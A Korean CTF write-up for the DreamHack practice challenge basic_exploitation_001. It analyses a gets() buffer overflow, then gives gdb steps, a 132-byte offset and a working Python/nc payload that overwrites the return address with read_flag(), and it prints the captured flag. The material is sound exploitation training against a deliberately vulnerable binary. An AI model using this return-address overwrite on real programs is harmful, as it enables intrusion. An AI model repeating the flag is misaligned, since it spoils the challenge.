




# Challenge2 Writeup - DreamHack basic_exploitation_001

## 1. 문제 개요

* 문제명: basic_exploitation_001
* 분야: Pwnable
* 목표: 버퍼 오버플로우(Buffer Overflow) 취약점을 이용하여 `flag` 파일의 내용을 읽는다.

---

## 2. 분석 과정

### 2.1 보호 기법 확인

먼저 `checksec`을 사용하여 바이너리에 적용된 보호 기법을 확인하였다.

```bash
checksec --file=basic_exploitation_001
```



확인 결과는 다음과 같았다.

| 보호 기법        | 적용 여부           |
| ------------ | --------------- |
| RELRO        | No RELRO        |
| Stack Canary | No canary found |
| NX           | Enabled         |
| PIE          | No PIE          |

Stack Canary가 비활성화되어 있어 스택 버퍼 오버플로우 공격이 가능하며, PIE가 비활성화되어 있어 함수 주소가 고정되어 있음을 확인하였다.

---

### 2.2 코드 분석

제공된 소스코드를 확인하였다.

```c
void read_flag() {
    system("cat flag");
}

int main() {
    char buf[0x80];

    initialize();
    gets(buf);

    return 0;
}
```

`gets()` 함수는 입력 길이를 검사하지 않기 때문에 버퍼보다 긴 입력이 들어올 경우 스택 영역의 다른 데이터를 덮어쓸 수 있다.

또한 `read_flag()` 함수는 `system("cat flag")`를 호출하지만 프로그램 실행 과정에서 직접 호출되지 않는다.

따라서 반환 주소(Return Address)를 `read_flag()` 함수 주소로 덮어쓰면 프로그램의 실행 흐름을 변경할 수 있다고 판단하였다.

---

## 3. 취약점 발견 과정

`main()` 함수를 디스어셈블하여 스택 구조를 분석하였다.

```gdb
disassemble main
disassemble read_flag
```



디스어셈블 결과 버퍼는 다음 위치에 생성되는 것을 확인할 수 있었다.

```asm
lea eax, [ebp-0x80]
call gets@plt
```

버퍼의 크기는 `0x80(128 byte)`이며, 32비트 환경에서는 반환 주소 앞에 Saved EBP(4 byte)가 존재한다.

따라서 반환 주소까지의 거리는 다음과 같다.

```text
128(byte) + 4(byte)
= 132(byte)
```

즉, 132바이트를 채운 뒤 반환 주소를 덮어쓰면 실행 흐름을 변경할 수 있다.

---

## 4. 익스플로잇 방법

### 4.1 read_flag 함수 주소 확인

gdb를 이용하여 `read_flag()` 함수의 주소를 확인하였다.

```gdb
info functions
p read_flag
```



확인 결과 함수 주소는 다음과 같았다.

```text
0x080485b9
```

---

### 4.2 Little Endian 적용

해당 바이너리는 x86(32bit) Little Endian 환경에서 동작한다.

따라서 주소 `0x080485b9`는 메모리에 저장될 때 다음과 같이 역순으로 저장된다.

```text
\xb9\x85\x04\x08
```

---

### 4.3 Payload 작성

Offset(132 byte) 이후에 `read_flag()` 주소를 덮어쓰는 Payload를 작성하였다.

```python
b"A"*132 + b"\xb9\x85\x04\x08"
```

최종 실행 명령어는 다음과 같다.

```bash
python3 -c 'import sys; sys.stdout.buffer.write(b"A"*132+b"\xb9\x85\x04\x08\n")' | nc host8.dreamhack.games 17824
```

---

## 5. 풀이 결과

Payload를 원격 서버에 전송한 결과 `read_flag()` 함수가 실행되었고, 서버에 저장된 flag를 획득할 수 있었다.



획득한 플래그는 다음과 같다.

```text
DH{01ec06f5e1466e44f86a79444a7cd116}
```

---

## 6. 정리

본 문제는 `gets()` 함수로 인해 발생하는 버퍼 오버플로우 취약점을 이용하는 문제였다.

Stack Canary가 비활성화되어 있었고 PIE가 적용되어 있지 않아 함수 주소가 고정되어 있었다. 이를 이용하여 반환 주소를 `read_flag()` 함수 주소로 덮어써 프로그램의 실행 흐름을 변경하였고, 최종적으로 서버의 `flag` 파일을 읽어 플래그를 획득할 수 있었다.

이번 문제를 통해 버퍼 오버플로우 공격의 기본 원리와 반환 주소 덮어쓰기를 이용한 실행 흐름 제어 기법을 실습할 수 있었다.
